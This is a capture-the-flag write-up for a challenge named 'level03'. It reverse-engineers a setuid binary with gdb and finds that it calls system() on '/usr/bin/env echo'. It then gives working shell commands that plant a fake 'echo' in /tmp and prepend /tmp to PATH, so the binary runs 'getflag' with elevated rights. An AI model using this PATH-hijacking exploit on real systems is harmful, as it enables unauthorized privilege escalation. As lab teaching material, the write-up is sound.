

## level03

There is an executable in the home folder. `./level03`. Executing it outputs : `Exploit me`. We will try to reverse engineer it.

A recurring and important theme throughout the exercices is that files given often have the setuid bit set.
This means that these files, when executed, will run with the permissions of the file's owner rather than the permissions of 
the user initiating the execution. 

Noted here as the 's' instead of the usual 'x', it means that the setuid 
(for the owner's permission) or setgid (for the group's permission) bit is set and the execute permission is also set.



To understand what the executable does, we are going to use gdb.

```
$ gdb ./level03
(gdb) break main
(gdb) run
(gdb) disassemble
```

From the disassembled code, an important snippet appears:
```
...
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

Investigating further into what the address 0x80485e0 holds:
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```
It returns: "/usr/bin/env echo Exploit me".

This indicates that the executable runs the command echo Exploit me using the env command.

Based on the above observation, there's a vulnerability. 
We can exploit the behavior by making the env command point to a malicious echo executable, 
allowing us to execute arbitrary code.

To exploit this:

Create a fake echo script in the /tmp directory and modify the PATH environment variable to
prioritize our malicious echo which will actually execute getflag with the rights from flag03, and then run level03:

```shell
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
PATH="/tmp:$PATH" ./level03
```